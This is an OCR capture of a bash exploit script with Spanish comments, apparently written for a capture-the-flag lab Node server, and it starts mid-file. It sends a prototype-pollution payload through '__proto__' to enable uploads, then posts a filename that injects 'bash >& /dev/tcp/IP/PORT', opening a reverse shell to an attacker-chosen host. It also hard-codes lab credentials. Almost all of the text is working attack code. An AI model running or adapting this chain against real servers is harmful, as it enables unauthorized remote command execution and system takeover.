 ```bash
        },
        "filename": "todo.txt"
    }
EOF
}

upload_data() {
    cat <<EOF
    {
        "auth": {
            "name": "felamos",
            "password": "Winter2021"
        },
        "filename": "& bash -c 'bash >& /dev/tcp/$1/$2 0>&1'"
    }
EOF
}

message_data() {
    cat <<EOF
    {
        "auth": {
            "name": "felamos",
            "password": "Winter2021"
        },
        "message": {
            "text": "holadenuevorey",
            "__proto__": {
               "canUpload": "true"
            }
        }
    }
EOF
}

# ---- Variables globales

URL="$1"
IP="$2"
PORT="$3"

# ---- Inicio del programa

if [ -z $URL ] || [ -z $IP ] || [ -z $PORT ]; then
    echo -e "\n[!] Uso: $0 http://node_server lhost lport"
    echo -e "Ejemplo: $0 http://10.10.10.235:31337 10.10.14.146 4433\n"
    exit 1
else
    # Asignamos objeto `canUpload`
    curl -s -H "Content-Type: application/json" -X PUT -d "$(message_data)" $URL > /dev/null

    # Subimos archivo con comando
    curl -s -H "Content-Type: application/json" -X POST -d "$(upload_data $IP $PORT)" $URL/upload > /dev/null
    echo -e "\n[+] Reverse Shell Generada!!\n"
fi
```
